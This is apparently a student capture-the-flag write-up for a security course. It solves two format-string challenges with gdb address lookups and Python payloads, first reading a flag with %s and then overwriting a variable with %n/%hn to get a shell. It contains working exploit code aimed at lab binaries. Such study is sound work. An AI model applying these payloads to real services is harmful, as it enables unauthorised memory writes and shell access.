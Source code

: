 ## Challenge 1
<!--
checksec program
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)

Análise do source code
Linha do código onde está a vulnerabilidade
- printf(buffer). buffer's contents from the user's input, i.e. controlled by the user. This is vulnerable to a format string attack. We can easily supply a format string that prints the contents of the program's memory.
- This vulnerability allows the printing of the program's memory, the stack and heap, and allows writing on it.
- To read the flag, we need to pass the address of the flag to printf. Then, by using the %s format string, we can print the flag's contents. We need make %s read the address of the flag that we passed, as we did in the seedlabs guide.

In checksec, we can see that PIE is not enabled. This means that the addresses of the program are fixed. As sugested on the moodle assignment, we can use gdb to find the address of the flag variable, which is located on the heap.

b main
run
next
p &flag

Using p &flag, we can find the address of the flag.
0x804c060

Or we can run python3 exploit_example.py which pauses the execution

Then we can attach in another terminal to the process by doing
gdb attach <pid>
p &flag
0x804c060

Since PIE is disabled, we can use this same address for the server, and it works.
-->
```python

N = 32	# 32 bytes read in total
content = bytearray(0x0 for i in range(N))

flag_addr = 0x804c060   # the flag address read in the local instance using gdb
content[0:4] = (flag_addr).to_bytes(4,byteorder='little')

s = "%s"

fmt  = (s).encode('latin-1')
content[4:4 + len(fmt)] = fmt


p.recvuntil(b"got:")
p.sendline(content)
p.interactive()

```


## Challenge 2

3 main tries
- normal one using actual address with 0x20
- replacing 0xff for 0x20 (did not work on the server, because it's reliant on knowing the buffer address)
- solution: using 0x1F and 0x21


<!--
checksec program
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)


Análise source code:
- The vulnerability is the same, it's the line `printf(buffer)`. buffer is given/controlled by user input. We can provide a format string as input. This allows us to print the contents of the program's memory, as well as writing on the memory.
- In this challenge, the flag is not in memory when the vulnerable printf(buffer) executes. This means we cannot simply read the flag from memory. However, in this case, a shell program is launched if a certain variable in the program's heap has a defined value. So, we just need to change the value of that variable (key) to be the one that passes the if clause. In that case, we'll gain access to the shell and be able to read the contents of the file flag.txt, by doing "cat flag.txt".

The value to pass the if clause is "0xbeef", which is 48879 in decimal.
To write values in the program's memory using a format string vulnerability, we must use %n, which prints the number of characters read until that point on the string. So we need to print 48879 characters in that printf. Then, we just do as in the guide. We need to know the address of the "key" variable. If %n sees that address as the argument, it will change the value of that variable with the characters read.

We can copy the python file from the first challenge and change a few things. We need to change the server to be 4005, and start by testing locally (LOCAL = True)
We need to also change the receive until to be until we receive a '...' sequence, since it is different in this challenge.

We can do the same as before. First run the program using python exploit.py in a terminal, and then attaching to that process using gdb attach <pid>

Then inside gdb, we can simply do:

gdb-peda$ p &key
$1 = (int *) 0x804b320 <key>

and we have read the address of the key variable (inside the heap).
Since there is no PIE, we know this address will be fixed.


%48879x%n


Put:
any 4 bytes at the beginning of the string
the 4 bytes for the address of the variable "key"
%(bignumber)x   -> will read the first 4 bytes of the string as an argument
%n  -> will read the address of the variable "key" as an argument, effectively writing the number of characters printed until now in that variable

48879 - 8 = 48871

"0000<addr>%48871x%n"

"ABCD<key_addr>%48871x%n"


Since this was not working, we tried this input:


s = "ABCD" + "%x" * 8
fmt = (s).encode('latin-1')
content[0: len(fmt)] = fmt

It resulted in this output
You gave me this:ABCD4443424178257825782578257825782578257825000
It shows that the first %x reads the "ABCD", as we expected, the rest is just reading the "%x"

Not understanding how this works, we tested several other things. We came to the conclusion that the address of the variable had the value 0x20, which represents a space. The problem is that scanf stops reading after receiving a space, so our input did not get fully sent.



SO THE SOLUTION WE CAME UP FOR THIS WAS:
writing the value of the address of the variable key (which had a space on it) by using %n and not directly through the input

In task 3.C of the guide of format string vulnerabilities, it is referenced that we can use %hn to modify a one byte memory space. We can use this to change the value of the address of the variable key.
So instead of inputting the exact value of the address, we replace 0x20 by, for example, 0xff, and then overwrite it using %hn with the correct value 0x20.

But for this, we need to pass the exact address of the byte that we want to change. The address of the buffer is 0xffffd160 so we can pass that on the input. Since we need to pass the exact address of the byte, we can calculate it.


Notes
address of buffer: 0xffffd160
2^16 = 65536

payload:
ABCD<buffer_addr - x><key_addr w/o 0x20>

-->
```python
content = bytearray(0x0 for i in range(N))

content[0:4] = ("ABCD").encode('latin-1')

inside_buffer = 0xffffd160 + 8

content[4:8] = (inside_buffer).to_bytes(4,byteorder='little')
content[8:12] = ("ABCD").encode('latin-1')

key_addr = 0x0804b3ff	# 0x20 is replaced by 0xff
content[12:16] = (key_addr).to_bytes(4,byteorder='little')

s = "%496x%hhn%48367x%n"

fmt  = (s).encode('latin-1')
content[16:16 + len(fmt)] = fmt
```
Above is a try to make the address of the variable key be changed to 0x20 and be able to write the value 48879 in it.
Does not work because the content would have 34 bytes.

In order to reduce the size, we tried doing this:

```python
N = 32	# 32 bytes read in total
content = bytearray(0x0 for i in range(N))

content[0:4] = ("ABCD").encode('latin-1')

inside_buffer = 0xffffd1c0 + 8
content[4:8] = (inside_buffer).to_bytes(4,byteorder='little')

key_addr = 0x0804b3ff	# 0x20 is replaced by 0xff
content[8:12] = (key_addr).to_bytes(4,byteorder='little')

s = "%20x%hhn%1$48847x%n"

fmt  = (s).encode('latin-1')
content[12:12 + len(fmt)] = fmt
```

We managed to get the flag with this but only locally. This hardcodes the buffer index which makes it not work on the server.

Another possible solution came up

<!--
Spilling values from other addresses
This new idea is to use an address that ends with 0x19, for example, to make the %n write the value 48879 in the address of the variable key.

0xbe = 190
0xef00 = 61184

-->
Solution that did not work.
```python
key_addr1 = 0x0804b321
key_addr2 = 0x0804b319

content[0:4] = (key_addr1).to_bytes(4,byteorder='little')
content[4:8] = (key_addr2).to_bytes(4,byteorder='little')

s = "%182x%1$n%60995x%2$hn"

fmt  = (s).encode('latin-1')
content[8:8 + len(fmt)] = fmt
```
<!--
- screenshot of failed attempt
Stupid forgot 0x1F and used 0x19



-->
Working exploit:
```python
key_addr1 = 0x0804b321
key_addr2 = 0x0804b31F

content[0:4] = (key_addr1).to_bytes(4,byteorder='little')
content[4:8] = (key_addr2).to_bytes(4,byteorder='little')

s = "%182x%1$n%60995x%2$hn"

fmt  = (s).encode('latin-1')
content[8:8 + len(fmt)] = fmt
```
<!--
- screenshot of key value
- screenshot of flag placeholder

We don't need to worry about the rest of the values in the key variable (the bytes 0x22, 0x23), because these will be empty
(comes from key = 0)
-->

This also works as expected in the server.

![Alt text](screenshots/w7/ctf/flag_server_ch2.png)
